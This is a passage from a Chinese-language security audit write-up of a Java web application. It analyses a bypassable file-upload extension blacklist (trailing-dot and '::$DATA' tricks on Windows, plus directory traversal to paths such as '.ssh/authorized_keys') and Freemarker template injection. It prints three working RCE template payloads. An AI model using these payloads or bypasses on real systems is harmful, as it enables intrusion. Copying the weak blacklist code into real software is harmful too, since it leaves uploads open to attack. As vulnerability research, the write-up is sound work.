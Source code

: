 `file.getOriginalFilename()`没有进行目录穿越判断，但是使用`FileUtils.isNotAllowFile(file.getOriginalFilename())`进行了后缀名过滤，跟进：

```java
notAllowFile.add(".jsp");
notAllowFile.add(".jspx");
notAllowFile.add(".php");
notAllowFile.add(".exe");
notAllowFile.add(".sh");
notAllowFile.add(".bat");
notAllowFile.add(".jar");
notAllowFile.add(".war");

public static boolean isNotAllowFile(String fileName) {
    String suffix = getSuffix(fileName);
    if(StringUtils.isNotBlank(suffix)) {
        return notAllowFile.contains(suffix.toLowerCase());
    }
    return false;
}

public static String getSuffix(String fileName) {
    if (fileName != null && fileName.contains(".")) {
        return fileName.substring(fileName.lastIndexOf("."));
    }
    return "";
}
```

获取文件名中最后一个`.`及其后的内容作为后缀，然后黑名单判断。在windows下，如果传入`shell.jsp.`，获取到的后缀会是`.`，此时就成功通过了黑名单判断，并且因为windows会自动去除文件后的点，所以可以成功上传，`::$DATA`同理。

另外，这里因为是黑名单，有权限的情况下，通过目录穿越可以在任意目录写入任意内容，比如`../../../.ssh/authorized_keys `。

PluginController中也有将jar和zip上传至任意位置的安全问题。

## 0x03 Freemarker模板注入

### 漏洞分析

通过使用内置函数new，可创建任意实现了`TemplateModel`接口的Java对象，借助`freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类可以实现RCE：

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","open -a Calculator").start()}
```

参考：https://tttang.com/archive/1412/#toc_api

或者使用内置的api函数来调用恶意类、读取文件：
